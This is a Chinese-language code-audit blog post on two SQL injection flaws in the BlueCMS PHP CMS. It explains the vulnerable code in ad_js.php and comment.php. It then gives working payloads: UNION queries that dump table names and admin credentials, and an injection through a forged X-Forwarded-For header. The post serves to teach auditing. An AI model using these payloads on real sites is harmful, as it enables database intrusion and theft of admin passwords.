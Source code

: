 ```yaml
---
title: 代码审计之SQL注入：BlueCMSv1.6 sp1
date: 2017-03-14 19:39:02
tags: [代码审计,SQL注入]
categories: Web安全
---
```

代码审计学习
<!-- more -->

# 工具及环境
+ bluecms v2.1 sp1
链接：http://pan.baidu.com/s/1dFKLanR 密码：8v1c
+ seay审计系统
链接：http://pan.baidu.com/s/1dENS4KT 密码：rszt
+ 环境
PHP: 5.4.45
MYSQL: 5.5.53


# 注入一
## 审计
用seay审计系统审计一下,定位到/ad_js.php。
![](http://ojp0pjljj.bkt.clouddn.com/bluecms1.jpg)

该条语句为
```php
$ad = $db->getone("SELECT * FROM ".table('ad')." WHERE ad_id =".$ad_id);
```

getone()是自定义的函数，用来查询数据库，代码如下：
```php
function getone($sql, $type=MYSQL_ASSOC){
  $query = $this->query($sql,$this->linkid);
  $row = mysql_fetch_array($query, $type);
  return $row;
}
```
回到ad_js.php
```php
"SELECT * FROM ".table('ad')." WHERE ad_id =".$ad_id
```
可见这里的变量 $ad_id 没有单引号保护。接下来看看这个变量的来源。
![](http://ojp0pjljj.bkt.clouddn.com/bluecms2.jpg)

```php
$ad_id = !empty($_GET['ad_id']) ? trim($_GET['ad_id']) : '';
```
若通过GET获得ad_id则去除它两边的空白字符，否则为空。在获得了ad_id值后，接下来就直接将$ad_id送入了查询语句，没有做任何过滤，因此这里存在注入。

## 利用
+ 先查询列数

    /ad_js.php?ad_id=1 +UNION +SELECT+1,2,3,4,5,6
    报错

![](http://ojp0pjljj.bkt.clouddn.com/bluecms3.jpg)

    ad_js.php?ad_id=1 +UNION +SELECT+1,2,3,4,5,6,7,8
    报错

![](http://ojp0pjljj.bkt.clouddn.com/bluecms4.jpg)

    ad_js.php?ad_id=1+UNION+SELECT+1,2,3,4,5,6,7
    无报错，且查看源代码发现数字7有回显。
![](http://ojp0pjljj.bkt.clouddn.com/bluecms6.jpg)

+ 提取数据
利用元数据表爆出表名
```
    ad_js.php?ad_id=1+UNION+SELECT+1,2,3,4,5,6,GROUP_CONCAT(table_name) from information_schema.tables where table_schema=database()
```
![](http://ojp0pjljj.bkt.clouddn.com/bluecms9.jpg)

+ 爆出字段

    ad_js.php?ad_id=1 +UNION +SELECT+1,2,3,4,5,6,GROUP_CONCAT(column_name) from information_schema.columns where table_name=0x626c75655f61646d696e
![](http://ojp0pjljj.bkt.clouddn.com/bluecms10.jpg)
+ 获取用户名密码

    ad_js.php?ad_id=1 +UNION +SELECT+1,2,3,4,5,6,GROUP_CONCAT(admin_name,0x3a,pwd) FROM blue_admin  
![](http://ojp0pjljj.bkt.clouddn.com/bluecms10.jpg)

# 注入二
## 审计
函数定位：
```php
function getip()
{
	if (getenv('HTTP_CLIENT_IP'))
	{
		$ip = getenv('HTTP_CLIENT_IP');
	}
	elseif (getenv('HTTP_X_FORWARDED_FOR'))
	{ //????????????????????????????ip ???
		$ip = getenv('HTTP_X_FORWARDED_FOR');
	}
	elseif (getenv('HTTP_X_FORWARDED'))
	{
		$ip = getenv('HTTP_X_FORWARDED');
	}
	elseif (getenv('HTTP_FORWARDED_FOR'))
	{
		$ip = getenv('HTTP_FORWARDED_FOR');
	}
	elseif (getenv('HTTP_FORWARDED'))
	{
		$ip = getenv('HTTP_FORWARDED');
	}
	else
	{
		$ip = $_SERVER['REMOTE_ADDR'];
	}
	return $ip;
}
```
直接获取了ip，并没有验证IP格式，因此我们可以伪造ip。查看一下有哪些位置调用了 getip() ，
![](http://ojp0pjljj.bkt.clouddn.com/bluecms13.jpg)

## comment.php页面
其中有如下代码

    $sql = "INSERT INTO ".table('comment')." (com_id, post_id, user_id, type, mood, content, pub_date, ip, is_check) VALUES ('', '$id', '$user_id', '$type', '$mood', '$content', '$timestamp', '".getip()."', '$is_check')";
    $db->query($sql);

可以看到，这里执行了INSERT语句，且调用了getip()，这里存在注入。

## 利用
这是目前的留言板：
![](http://ojp0pjljj.bkt.clouddn.com/bluecms17.jpg)

在burp截包后，post参数如下：
![](http://ojp0pjljj.bkt.clouddn.com/bluecms16.jpg)
所以

    user_id=2
    id=6 即 post_id=6 对应发表留言的文章id
    type=1
    mood=6 （这个无关紧要）

为了能让把管理员账号和密码回显出来，我们不能直接在getip()的位置上直接去查询。在前面的sql语句中，content变量是会回显到页面上的，这里利用这个位置去构造payload。

payload如下：

    1','1'),('','6','2','1','6',(select concat(admin_name,':',pwd) from blue_admin),'1','1

payload分析：1','1')是为了完成第一次插入，之后的（）是为了完成第二次插入，前面的 '','6','2','1','6' 是与第一个插入语句的参数相对应。接下来，我们把查询到的账号密码放在了第六个参数即content位置，这样能实现回显。而最后的 '1','1  是要满足列数相等否则会出错，同时要注意闭合原本语句中的单引号，其中第一个 1 对应sql语句中的$timestamp，表示发表时间，这个无关紧要。

所以这样插入后完整的sql语句是：

    $sql = INSERT INTO ".table('comment')." (com_id, post_id, user_id, type, mood, content, pub_date, ip, is_check)
      VALUES ('', '$id', '$user_id', '$type', '$mood', '$content', '$timestamp', '1','1'),('','6','2','1','6',(select concat(admin_name,':',pwd) from blue_admin),'1','1', '$is_check')";

![](http://ojp0pjljj.bkt.clouddn.com/bluecms18.jpg)
Forward后 注入成功。
![](http://ojp0pjljj.bkt.clouddn.com/bluecms20.jpg)
